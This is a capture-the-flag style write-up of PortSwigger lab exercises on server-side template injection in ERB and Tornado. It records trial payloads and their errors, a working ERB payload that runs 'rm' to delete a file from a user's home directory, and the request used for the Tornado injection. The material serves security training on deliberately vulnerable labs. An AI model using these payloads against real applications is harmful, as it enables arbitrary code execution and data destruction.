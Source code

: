 ```yaml
---
description: https://portswigger.net/web-security/server-side-template-injection
---
```


# Server-side template injection

### Lab: Basic server-side template injection

This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

`/?message=Unfortunately%20this%20product%20is%20out%20of%20stock`

```
<% import os x=os.popen('id').read() %> ${x} - It gives error:
Internal Server Error (erb):1:in `<main>': undefined local variable or method
`os' for main:Object (NameError) from /usr/lib/ruby/2.5.0/erb.rb:876:in `eval'
from /usr/lib/ruby/2.5.0/erb.rb:876:in `result' from -e:4:in `<main>'
```

```
<%= 7 * 7 %>
/?message=<%= 7 * 7 %> - It works!
```

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby---code-execution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby---code-execution)

**Solution:**

```
<%= system('rm /home/carlos/morale.txt') %>
/?message=%3C%=%20system(%27rm%20/home/carlos/morale.txt%27)%20%%3E
```

### Lab: Basic server-side template injection (code context)

This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

My account -> Preferred Name

```
POST /my-account/change-blog-post-author-display HTTP/1.1
...
blog-post-author-display=user.name&csrf=nHddz37KBT1wKZuCvtMoOuP3ku2frQwT

GET /post?postId=9 HTTP/1.1
Post a comment, you can see the result of injection.
```
